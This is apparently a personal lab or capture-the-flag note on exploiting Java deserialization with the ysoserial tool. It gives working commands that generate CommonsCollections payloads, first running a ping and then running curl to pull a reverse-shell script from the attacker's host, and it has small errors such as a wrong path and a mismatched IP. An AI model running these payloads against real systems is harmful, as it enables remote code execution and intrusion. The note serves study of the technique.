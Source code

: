 https://github.com/frohoff/ysoserial
We need to download the **latest release jar**

Ysoserial is a programming tool that can be used to exploit Java deserialization vulnerabilities. It consists of modules known as playloads. These playloads generate a serialized object that invokes some action when instantiated, compromising the system or its data.

# Execution

As generally we don't know the type of serialization the victime uses, we try many different payloads, these payloads will serialize the data and the victime will deserialized so the technique must be the same

![[Pasted image 20240402193017.png]] 

In order to guess easily the serialization technique, we can view the error messages if we have them. In this case we see *common* so it's probably using this type of serialization

![[Pasted image 20240403072551.png]]

After installing **ysoserial** we can build our serialized file.

To test at first is advisable to use a ping 
````
java -jar ysoserial-all.jar CommonsCollections1 'ping -c 1 10.10.14.70' > ping.session
````

- CommonsCollections1 is the serialization type that we must change if this doesn't work

If there is a method call issue, we need to explicitly mention the method in our script, if this persist, it's probably due to java version (>12 gives issues for this tool so it's better to downgrade it)
````
java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 'ping -c 1 10.10.14.70' > ping.session
````
It creates a file called ping.session. Internally it will deserialized and the response we can catch it by a packet capture tool:
`Attacker$tcpdump -i tun0 icmp -n` *tun0 is the interface*

If this work we can use different scripts to inject and get as reverse shell
````
java -jar ysoserial-all.jar CommonsCollections2 'curl 10.10.14.70 -o /dev/shm/reverse.sh' > pwned.session
````
- Curl stores the script caught from 10.10.40.70 web server (*index.html* file) and the stores it in */deb/shm/*
